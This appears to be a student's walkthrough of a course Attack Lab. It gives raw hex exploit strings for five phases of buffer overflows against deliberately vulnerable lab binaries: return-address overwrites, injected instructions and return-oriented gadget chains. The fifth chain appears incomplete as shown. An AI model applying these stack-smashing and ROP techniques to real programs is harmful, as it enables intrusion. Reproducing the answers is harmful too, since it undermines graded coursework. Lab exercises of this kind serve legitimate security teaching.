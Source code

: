 # Attack Lab Walkthrough
by Kai Schuyler
## Solutions:
### Phase 1:
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* padding */
66 14 40 00 00 00 00 00 /* touch1 address */
```
### Phase 2:
```
48 c7 c7 f1 1e d6 5c c3 /* Assembly instruction */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* padding */
78 04 67 55 00 00 00 00 /* rsp - 0x28 */
94 14 40 00 00 00 00 00 /* touch2 address */
```
### Phase 3:
```
48 c7 c7 63 04 67 55 c3 /* assembly */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* end of padding */
78 04 67 55 00 00 00 00 /* ret to buffer begin */
ab 15 40 00 00 00 00 00 /* touch3 address */
35 63 64 36 31 65 66 31 00 /* cookie */
```
### Phase 4:
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* buffer */
73 16 40 00 00 00 00 00 /* gadget 1, popq $rax */
f1 1e d6 5c 00 00 00 00 /* cookie value 0x5cd61ef1 */
4f 16 40 00 00 00 00 00 /* gadget 2 mov $rax,$rdi */
94 14 40 00 00 00 00 00 /* touch2 address 401494 */
```
### Phase 5:
```
00 00 00 00 00 00 00 00 /* padding */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
e1 16 40 00 00 00 00 00 /* 1: mov rsp,rax */
4f 16 40 00 00 00 00 00 /* 2: mov rax,rdi */
73 16 40 00 00 00 00 00 /* 3: pop rax */
48 00 00 00 00 00 00 00 /* 4: gap 48 */
37 17 40 00 00 00 00 00 /* 5: mov eax,edx */
29 17 40 00 00 00 00 00 /* 6: mov edx,ecx */
4c 17 40 00 00 00 00 00 /* 7: mov ecx,esi */
```